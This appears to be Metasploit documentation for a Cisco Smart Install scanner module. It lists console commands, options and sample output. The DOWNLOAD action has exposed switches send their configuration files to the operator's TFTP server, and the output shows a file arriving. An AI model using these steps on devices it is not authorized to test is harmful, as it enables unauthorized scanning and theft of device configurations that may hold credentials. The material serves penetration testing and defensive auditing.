 ## Vulnerable Application

  Any system exposing the Cisco Smart Install (SMI) protocol, which typically runs on TCP port 4786.

## Verification Steps

  1. Do: ```use auxiliary/scanner/misc/cisco_smart_install```
  2. Do: ```set ACTION SCAN```
  3. Do: ```set [RHOSTS]```, replacing ```[RHOSTS]``` with a list of hosts to test for the presence of SMI
  3. Do: ```run```
  4. If the host is exposing an identifiable SMI instance, it will print the endpoint.

## Options

### SLEEP
Time to wait for connection back from target. Default is `60` seconds if using `DOWNLOAD` action

### LHOST
Address to bind to for TFTP server to accept connections if using `DOWNLOAD` if using `DOWNLOAD` action

### DELAY
Tiume to wait before requesting configuration from target. Default is `60` seconds if using `DOWNLOAD` action

## Actions
There are two actions, default being ```SCAN```

  1. **SCAN** - Scan for Smart Install endpoints. [Default]
  2. **DOWNLOAD** - Request devices configuration and send to our TFTP server

## Scenarios

Using the default `SCAN` action
  ```
msf auxiliary(cisco_smart_install) > run

[*] Scanned  57 of 512 hosts (11% complete)
[*] Scanned 105 of 512 hosts (20% complete)
[*] Scanned 157 of 512 hosts (30% complete)
[*] Scanned 212 of 512 hosts (41% complete)
[*] Scanned 256 of 512 hosts (50% complete)
[*] Scanned 310 of 512 hosts (60% complete)
[*] Scanned 368 of 512 hosts (71% complete)
[*] Scanned 413 of 512 hosts (80% complete)
[*] Scanned 466 of 512 hosts (91% complete)
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] Scanned 512 of 512 hosts (100% complete)
[*] Auxiliary module execution completed
```

Using the `DOWNLOAD` action

  ```
msf auxiliary(cisco_smart_install) > run
[*] a.b.c.d:4786   - Starting TFTP Server...
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] a.b.c.d:4786   - Waiting 60 seconds before requesting config
[*] a.b.c.d:4786   - Requesting configuration from device...
[*] a.b.c.d:4786   - Waiting 60 seconds for configuration
[*] a.b.c.d:4786   - Incoming file from a.b.c.d - GZjWgnqv 3015 bytes
[*] a.b.c.d:4786   - Providing some time for transfers to complete...
[*] a.b.c.d:4786   - Shutting down the TFTP service...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

